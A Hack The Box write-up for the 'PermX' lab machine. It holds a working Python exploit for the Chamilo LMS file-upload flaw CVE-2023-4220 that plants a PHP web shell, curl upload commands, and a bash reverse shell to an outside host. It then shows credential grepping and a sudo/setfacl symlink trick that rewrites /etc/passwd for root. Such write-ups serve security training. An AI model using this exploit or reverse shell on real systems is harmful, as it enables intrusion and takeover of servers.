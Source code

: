 ```yaml
---
layout: single
title: PermX - Hack The Box
excerpt: "'PermX' is an Easy Difficulty Linux machine featuring a learning management system vulnerable to unrestricted file uploads via [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220). This vulnerability is leveraged to gain a foothold on the machine. Enumerating the machine reveals credentials that lead to SSH access. A 'sudo' misconfiguration is then exploited to gain a 'root' shell."
date: 2025-06-02
classes: wide
header:
  teaser: /img2/permx.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Subdomain Enumeration
  - Chamilo LMS Exploitation - Unauthenticated Command Injection [CVE-2023-4220] (RCE)
  - Information Leakage
  - Abusing Sudoers - Custom Bash Script (playing with setfacl) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.23
```

![](/img2/Pasted%20image%2020250602093054.png)

- Add domain to local DNS

```bash
echo "10.10.11.23 permx.htb" >> /etc/hosts
```

- Wfuzz to find subdomains

```bash
wfuzz -c -t 50 --hc=302 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/
```

![](/img2/Pasted%20image%2020250602094414.png)

- Add domains to local DNS

```bash
echo "10.10.11.23 www.permx.htb lms.permx.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://lms.permx.htb/
```

![](/img2/Pasted%20image%2020250602094727.png)

## Exploitation

- Chamilo Unauthenticated Command Injection (CVE-2023-4220)

```python
import requests
import argparse
from urllib.parse import urljoin

def upload_shell(target_url, payload_name):
    upload_url = urljoin(target_url, "main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported")
    shell_path = f"/main/inc/lib/javascript/bigupload/files/{payload_name}"
    shell_url = urljoin(target_url, shell_path)
    
    # Payload containing the PHP web shell
    files = {'bigUploadFile': (payload_name, '<?php system($_GET["cmd"]); ?>', 'application/x-php')}
    
    # Upload the payload
    response = requests.post(upload_url, files=files)
    
    if response.status_code == 200:
        print("[+] File uploaded successfully!")
        print(f"[+] Access the shell at: {shell_url}?cmd=")
    else:
        print("[-] File upload failed.")

def execute_command(shell_url, cmd):
    # Execute the command
    response = requests.get(f"{shell_url}?cmd={cmd}")
    if response.status_code == 200:
        print(f"[+] Command Output:\n{response.text}")
    else:
        print(f"[-] Failed to execute command at {shell_url}")

if __name__ == "__main__":
    # Parse command-line arguments
    parser = argparse.ArgumentParser(description="CVE-2023-4220 Chamilo LMS Unauthenticated File Upload RCE Exploit")
    parser.add_argument('target_url', help="The target base URL of the Chamilo LMS instance (e.g., http://example.com/)")
    parser.add_argument('cmd', help="The command to execute on the remote server")
    parser.add_argument('--shell', default='rce.php', help="The name of the shell file to be uploaded (default: rce.php)")
    
    args = parser.parse_args()

    # Run the exploit with the provided arguments
    upload_shell(args.target_url, args.shell)
    
    # Form the shell URL to execute commands
    shell_url = urljoin(args.target_url, f"main/inc/lib/javascript/bigupload/files/{args.shell}")
    execute_command(shell_url, args.cmd)
```

```bash
python3 exploit.py http://lms.permx.htb/ id
```
![](/img2/Pasted%20image%2020250602104125.png)

- Manual explotation

```bash
echo '<?php system("id"); ?>' > rce.php
```

```bash
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

![](/img2/Pasted%20image%2020250602103932.png)

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

![](/img2/Pasted%20image%2020250602104018.png)

- Send reverse shell

```bash
echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/10.10.16.7/9000 0>&1'\"); ?>" > rce.php
```

```bash
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

![](/img2/Pasted%20image%2020250602103932.png)

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

```bash
nc -nlvp 9000
```

## Post-exploitation 

- Find leaked credentials

```bash
cd /var/www/chamilo/app/config
```

```bash
cat * | grep password -C 2
```

![](/img2/Pasted%20image%2020250602105614.png)

- Pivoting 

```bash
su mtz
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250602115919.png)

- Check bash file

![](/img2/Pasted%20image%2020250602120017.png)

> We only can change ACL perms in /home/mtz directory, without path traversal ".."

- Create sym link and change ACL perms

```bash
ln -s /etc/passwd etcpasswd
```

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/etcpasswd
```

- Change root password in /etc/passwd

```bash
openssl passwd -1 root
```

![](/img2/Pasted%20image%2020250602120322.png)

![](/img2/Pasted%20image%2020250602120522.png)

```bash
su root
```


![](/img2/Pasted%20image%2020250602115818.png)